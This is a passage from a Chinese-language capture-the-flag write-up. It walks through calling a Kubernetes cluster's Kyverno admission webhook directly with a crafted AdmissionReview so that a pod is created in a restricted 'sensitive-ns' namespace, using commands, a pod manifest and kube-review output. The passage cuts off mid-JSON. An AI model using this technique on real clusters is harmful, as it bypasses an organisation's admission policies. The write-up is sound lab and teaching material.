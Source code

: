 ```bash
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
```

大概查一下，似乎 `kyverno-svc.kyverno.svc.cluster.local` 是 Kyverno 的主要服务入口点。

hint 又给了 admission webhook 的请求方式，用 post 请求，设置  `Content-Type: application/json`  并对  `admission.k8s.io`  API  组中的  `AdmissionReview`  对象进行序列化。

`AdmissionReview` 对象可以用 [anderseknert/kube-review: Create Kubernetes AdmissionReview requests from Kubernetes resource manifests](https://github.com/anderseknert/kube-review) 来产生，hint 中还说要考虑 path ，直接 GPT：

> Kyverno 处理 admission webhook 请求的 HTTP 路径通常是 `/validate` 用于验证（validation）webhooks，和 `/mutate` 用于变更（mutation）webhooks。这意味着 Kyverno 在 Kubernetes 集群中注册了这些路径来接收和处理来自 Kubernetes API 服务器的 webhook 调用。当 Kubernetes API 服务器需要对资源进行验证或变更时，它会向 Kyverno 发送请求到这些路径。

我们的想法是创建一个 sensitive-ns namespace 的 pod ，因此应该是 `/mutate` 了。

但是直接 curl 会报错：

```bash
curl kyverno-svc.kyverno.svc.cluster.local
upstream connect error or disconnect/reset before headers. reset reason: connection timeout
```

一开始以为是 path 错了，后来查到了一个 issue ，原来是 https：[[Bug] InternalError, error: Internal error occurred: failed calling webhook "mutate.kyverno.svc-fail" · Issue #7378 · kyverno/kyverno](https://github.com/kyverno/kyverno/issues/7378)

因此准备就绪，开始攻击。

首先创建`AdmissionReview`：

```yaml
cat pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl

```

```bash
./kube-review create pod.yaml
{
    "kind": "AdmissionReview",
    "apiVersion": "admission.k8s.io/v1",
    "request": {
        "uid": "4cff4c58-75ba-4c4b-97e8-a972f3fc3ff3",
        "kind": {
            "group": "",
            "version": "v1",
            "kind": "Pod"
        },
        "resource": {
            "group": "",
            "version": "v1",
            "resource": "pods"
        },
        "requestKind": {
            "group": "",
            "version": "v1",
            "kind": "Pod"
```